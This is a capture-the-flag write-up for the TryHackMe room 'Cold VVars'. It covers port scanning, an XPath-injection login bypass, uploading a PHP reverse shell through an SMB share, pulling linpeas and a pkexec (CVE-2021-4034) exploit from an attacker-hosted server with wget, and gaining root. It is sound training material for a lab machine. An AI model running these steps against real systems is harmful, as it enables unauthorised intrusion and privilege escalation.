

# Cold VVars

## Description

Room link: https://tryhackme.com/room/coldvvars

Part of Incognito CTF

Part of [Incognito 2.0 CTF](https://ctftime.org/event/1321)

Note- The machine may take about 5 minutes to fully boot.

Like my work, Follow on twitter to be updated and know more about my work! ([@0cirius0](https://twitter.com/0cirius0))

### Writer

First of all, thanks to the creators of this room for giving us the chanse to practice our skills.

**Note:** All the passwords, hashes, payloads, and flags are redacted, so you can get a hand-on experience completing this room.

Happy H4CK1N9! : )

## Initial Scan

As always, starting with a full port Nmap scan. The scan reveals four open ports:

* 139 SMB
* 445 SMB
* 8080 HTTP (Apache)
* 8082 HTTP (Node.js)

~~~
PORT     STATE SERVICE     VERSION
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
8080/tcp open  http        Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
8082/tcp open  http        Node.js Express framework
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).

Service Info: Host: INCOGNITO

Host script results:
|_clock-skew: mean: 12m06s, deviation: 1s, median: 12m05s
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
|_nbstat: NetBIOS name: INCOGNITO, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2022-03-05T16:39:22
|_  start_date: N/A
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: incognito
|   NetBIOS computer name: INCOGNITO\x00
|   Domain name: \x00
|   FQDN: incognito
|_  System time: 2022-03-05T16:39:22+00:00
~~~

## HTTP (port 8080)

Let's start with the HTTP service running on port 8080, powered by `Apache`. The main page is the default page of Apache2:

Let's run `gobuster` on it to find pages to work with:

~~~
└─$ gobuster dir -w /usr/share/dirb/wordlists/common.txt -u http://$IP:8080/ -x js,php,html,txt,sql,zip,old

[SNIP]

/dev                  (Status: 301) [Size: 315] [--> http://10.10.64.68:8080/dev/]
/index.php            (Status: 200) [Size: 4]                                     
/index.html           (Status: 200) [Size: 10918]                                 
/server-status        (Status: 403) [Size: 278]
~~~

We didn't find that many pages. `index.html` is the default page that we see. Let's take a look at `index.php`:

~~~
└─$ curl -s "http://$IP:8080/index.php"    
Data
~~~

Inspiring stuff. We also found `/dev` directory, which might be useful based on its name. Since this directory returns status code 403 (Forbidden), let's run `gobuster` on it to see if we can find anything useful:

~~~
└─$ gobuster dir -w /usr/share/dirb/wordlists/common.txt -u http://$IP:8080/dev/ -x js,php,html,txt,sql,zip,old

[SNIP]

/note.txt             (Status: 200) [Size: 45]
~~~

We were only able to discover one page in this directory, `note.txt`. Let's read this file:

~~~
└─$ curl -s "http://$IP:8080/dev/note.txt"
Secure File Upload and Testing Functionality
~~~

This note might be useful later, so let's keep it in mind ; ) . Nothing else to check on this port, so let's move on.

## HTTP (port 8082)

Let's move on to the other HTTP service running on port 8082, which is powered by `Node.js`. The main page has nothing much to offer and has no useful links:

Let's run `gobuster` on it to see if we can find anything to work with:

~~~
└─$ gobuster dir -w /usr/share/dirb/wordlists/common.txt -u http://$IP:8082/ -x js,php,html,txt,sql,zip,old

[SNIP]

/login                (Status: 200) [Size: 1605]
/Login                (Status: 200) [Size: 1605]
/static               (Status: 301) [Size: 179] [--> /static/]
~~~

We discovered a login page in `/login`:

Tried some default creds, but none of them worked. The kind room creators have left us a hint that refers to `XPATH Injection`. Let's take this path then (no pun intended).

## XPATH Injection

First let me give a little explanation for the beginners. `XPATH Injection` payloads are very similar to `SQL Injcetion` payloads and the goal is very similar too. The only difference between these two attacks is that XPATH Injection uses an XML file for data storage instead of a database.

Let's get back to work. I originally did this manually, but if you're not familiar with how the payloads are like, you can use [this list](https://lanfran02.github.io/es/posts/cold_vvars/XPATH_list.txt) from another write-up of this room by [lanfran02](https://tryhackme.com/p/lanfran02).

You can use `burpsuite`'s "Intruder" to test the payloads automaticly on the username parameter. Anyways, I finnaly went through. I crossed out a part of the payload, so you test the payloads yourself:

After we successfuly bypassed the login page, we face a page with 4 pairs of usernames and passwords:

~~~
Username Password
Tove [REDACTED]
Godzilla [REDACTED]
SuperMan [REDACTED]
ArthurMorgan [REDACTED]
~~~

Now we have creds and nothing else to check on this port, so let's move on.

## SMB

The only thing that's left, is the SMB share. First I listed the shares using `smbclient`:

~~~
└─$ smbclient -L //$IP/
Enter WORKGROUP\user's password: 

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	SECURED         Disk      Dev
	IPC$            IPC       IPC Service (incognito server (Samba, Ubuntu))
Reconnecting with SMB1 for workgroup listing.

	Server               Comment
	---------            -------

	Workgroup            Master
	---------            -------
	WORKGROUP            INCOGNITO

~~~

We found a shere named `SECURED`, but we need to be a user to access it. I started trying the credentials that we found, and user `ArthurMorgan`'s creds were valid:

~~~
└─$ smbclient //$IP/SECURED -U ArthurMorgan
Enter WORKGROUP\ArthurMorgan's password: 
Try "help" to get a list of possible commands.
smb: \> 
~~~

Let's list thie files and see what we can find:

~~~
smb: \> ls
  .                                   D        0  Sun Mar 21 19:04:28 2021
  ..                                  D        0  Thu Mar 11 07:52:29 2021
  note.txt                            A       45  Thu Mar 11 07:19:52 2021

		7743660 blocks of size 1024. 4497348 blocks available
~~~

There is a file named `note.txt`. Sounds familiar. Let's download it and see what it has to offer:

~~~
smb: \> get note.txt
getting file \note.txt of size 45 as note.txt (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
smb: \> exit

└─$ cat note.txt  
Secure File Upload and Testing Functionality
~~~

You have probably guessed that this might be the same file as the one we found in `/dev/note.txt` on port 8080. We can test this by uploading a file to the SMB share and see if we can access it from the web service.

I create a test file and uploaded it:

~~~
└─$ smbclient //$IP/SECURED -U ArthurMorgan
Enter WORKGROUP\ArthurMorgan's password: 
Try "help" to get a list of possible commands.
smb: \> put test.txt
putting file test.txt as \test.txt (0.1 kb/s) (average 0.1 kb/s)
smb: \> ls
  .                                   D        0  Sun Mar  6 03:56:08 2022
  ..                                  D        0  Thu Mar 11 07:52:29 2021
  note.txt                            A       45  Thu Mar 11 07:19:52 2021
  test.txt                            A       23  Sun Mar  6 03:56:08 2022

		7743660 blocks of size 1024. 4497328 blocks available
~~~

Let's see if can access it from the web service on port 8080:

~~~
└─$ curl -s "http://$IP:8080/dev/test.txt"
That was the same file
~~~

It is the same file then. So we can upload files on the SMB share and call them from the webpage. That rings a bell…

## Reverse Shell

We can use this discovery to gain a reverse shell. I usually use a php reverse shell, which you can get [here](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php). Just copy the code and change the IP and port inside it. Change the IP to you tryhackme IP and change the port to anything you like (I use port 4444).

After we got our reverse shell ready, we can connect to the SMB service and upload our reverse shell using the `put` command:

~~~
└─$ smbclient //$IP/SECURED -U ArthurMorgan
Enter WORKGROUP\ArthurMorgan's password: 
Try "help" to get a list of possible commands.
smb: \> put shell.php
putting file shell.php as \shell.php (3.6 kb/s) (average 3.6 kb/s)
smb: \> ls
  .                                   D        0  Sun Mar  6 04:12:32 2022
  ..                                  D        0  Thu Mar 11 07:52:29 2021
  note.txt                            A       45  Thu Mar 11 07:19:52 2021
  shell.php                           A     2146  Sun Mar  6 04:12:33 2022
  test.txt                            A       23  Sun Mar  6 03:56:08 2022

		7743660 blocks of size 1024. 4497320 blocks available
~~~

Our reverse shell has been uploaded. Let's open a listener (`rlwrap nc -lvnp 4444`) and call the shell from the web service. After you opened your listener, browse the following url to call the shell:

~~~
http://<MACHINE IP>:8080/dev/<REVERSE SHELL NAME>
~~~

After doing so, you should get a shell on your listener as `www-data`. The first thing I did was spawning a TTY shell using a python one-liner:

Python code to spawn a TTY shell:

~~~
$ python3 -c "import pty;pty.spawn('/bin/bash')"
~~~

On the target machine:

~~~
└─$ rlwrap nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.9.**.**] from (UNKNOWN) [10.10.64.68] 40462
Linux incognito 4.15.0-143-generic #147-Ubuntu SMP Wed Apr 14 16:10:11 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux

[SNIP]

uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ which python3
/usr/bin/python3
$ python3 -c "import pty;pty.spawn('/bin/bash')"
www-data@incognito:/$
~~~

## www-data -> ArthurMorgan (lateral move)

First let's check the users with console on the machine:

~~~
www-data@incognito:/$ grep -e \/sh -e bash /etc/passwd
root:x:0:0:root:/root:/bin/bash
ArthurMorgan:x:1001:1002::/home/ArthurMorgan:/bin/sh
marston:x:1002:1003::/home/marston:/bin/bash
~~~

So we have two users on the machine: `ArthurMorgan` and `marston`. We have a password for user `ArthurMorgan`, so let's test if it is valid:

~~~
www-data@incognito:/$ su ArthurMorgan
Password: [REDACTED]
$ whoami
ArthurMorgan
~~~

Great! It worked. We can use the same python one-liner to spawn a TTY shell:

~~~
$ python3 -c "import pty;pty.spawn('/bin/bash')"
ArthurMorgan@incognito:/$ 
~~~

## User Flag

Now we are user `ArthurMorgan` and we can go ahead and read the user flag, which is located in this user's home directory (we could read it as www-data too.):

~~~
ArthurMorgan@incognito:/$ cd
ArthurMorgan@incognito:~$ ls -la
total 32
drwxr-xr-x 6 ArthurMorgan ArthurMorgan 4096 May 28  2021 .
drwxr-xr-x 4 root         root         4096 Mar 21  2021 ..
lrwxrwxrwx 1 root         root            9 Mar 23  2021 .bash_history -> /dev/null
drwx------ 2 ArthurMorgan ArthurMorgan 4096 Mar 21  2021 .cache
drwxr-x--- 3 ArthurMorgan ArthurMorgan 4096 Mar 21  2021 .config
drwx------ 4 ArthurMorgan ArthurMorgan 4096 Mar 21  2021 .gnupg
-rw-r--r-- 1 ArthurMorgan ArthurMorgan   56 Mar 21  2021 ideas
drwxrwxr-x 3 ArthurMorgan ArthurMorgan 4096 Mar 21  2021 .local
-rw-r--r-- 1 ArthurMorgan ArthurMorgan   33 Mar 21  2021 user.txt
ArthurMorgan@incognito:~$ cat user.txt
ae39f419ce0[REDACTED]5aaa7e446ff
~~~

User flag: `ae39f419ce0[REDACTED]5aaa7e446ff`

## Privilege Escalation

Now we need to escalate to the other user on the machine or even root. To speedup the enumration process of the target machine, we can upload an enumeration tool lile `linpeas`, which you can download [here](https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh).

Let's use it then. After downloading it, you can start a python http server, where the script is located, so you can download it on the target machine:

Your machine:

~~~
└─$ sudo python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
~~~

Now we download it on the target machine, mark it as executable, and then run it (I like to use `-a` switch to get more info):

~~~
ArthurMorgan@incognito:~$ cd /tmp
ArthurMorgan@incognito:/tmp$ wget http://<YOUR IP>:8000/linpeas.sh
ArthurMorgan@incognito:/tmp$ chmod +x linpeas.sh
ArthurMorgan@incognito:/tmp$ ./linpeas.sh -a
~~~

After `linpeas` was done, it was able to discover a vulnerability with the CVE number of `CVE-2021-4034`:

### Exploit

This vulnerability was published two months before the room was published, so let's use it. I don't think that it was intentional, but we are hacking a machine, so why not use it?

The exploit uses the vulnerable `pkexec` tool, and allows a local user to gain root system privileges on the affected host.

I found an exploit for it in github [here](https://github.com/berdav/CVE-2021-4034). To be able to transfer it to the target machine, we have to download its zip file as shown below:

After you downloaded the file, start a python http server in the location of the zip file:

~~~
└─$ sudo python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
~~~

Now on the target machine, we download the exploit zip file, and using the guide, we compile and run it:

~~~
ArthurMorgan@incognito:/tmp$ wget http://<YOUR IP>:8000/CVE-2021-4034-main.zip
ArthurMorgan@incognito:/tmp$ unzip CVE-2021-4034-main.zip
ArthurMorgan@incognito:/tmp$ cd CVE-2021-4034-main
ArthurMorgan@incognito:/tmp/CVE-2021-4034-main$ make
ArthurMorgan@incognito:/tmp/CVE-2021-4034-main$ ./cve-2021-4034
# whoami
root
~~~

## Root Flag

Now we are root and we can head to `/root` and read the root flag:

~~~
# cd /root
# ls
root.txt
# cat root.txt
42f191b937e[REDACTED]06a7a08585a
~~~

Root flag: `42f191b937e[REDACTED]06a7a08585a`

## D0N3! ; )

Thanks again to the creators of this room for the experience!

One thing to point out is that we could also gain root access by hijacking Tmux session, but I took a more efficient way. You can check other write-ups to see how that should be done.

Anyways. Hope you had fun and learned something!

Have a g00d 0ne! : )